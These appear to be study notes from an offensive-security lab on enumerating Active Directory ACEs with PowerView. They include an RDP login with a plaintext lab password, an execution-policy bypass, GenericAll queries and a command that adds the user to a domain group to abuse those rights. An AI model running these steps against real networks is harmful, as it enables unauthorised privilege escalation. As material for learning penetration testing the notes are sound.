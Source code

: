 ### Enumerating Object Permissions
```
xfreerdp /u:stephanie /d:corp.com /v:192.168.240.75 /p:LegmanTeamBenzoin\!\!
```
- an object in AD may have a set of permissions applied to it with multiple Access Control Entries (ACE)
- GenericAll: Full permissions on object
- GenericWrite: Edit certain attributes on the object
- WriteOwner: Change ownership of the object
- WriteDACL: Edit ACE's applied to object
- AllExtendedRights: Change password, reset password, etc.
- ForceChangePassword: Password change for object
- Self (Self-Membership): Add ourselves to for example a group

### enumerate ACEs
```
cd C:\Tools
powershell -ep bypass
Import-Module .\PowerView.ps1
Get-ObjectAcl -Identity stephanie
```

we want the security identifiers (SIDs) from this output, and make them easier to read
```
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
```

The highest access permission we can have on an object is GenericAll
```
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
```

convert SID into names
```
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
```

add ourselves to group
```
net group "Management Department" stephanie /add /domain
```

verify added
```
Get-NetGroup "Management Department" | select member
```

remove our user
```
net group "Management Department" stephanie /del /domain
```

### Enumerating domain shares
```
xfreerdp /u:stephanie /d:corp.com /v:192.168.240.75 /p:LegmanTeamBenzoin\!\!
```
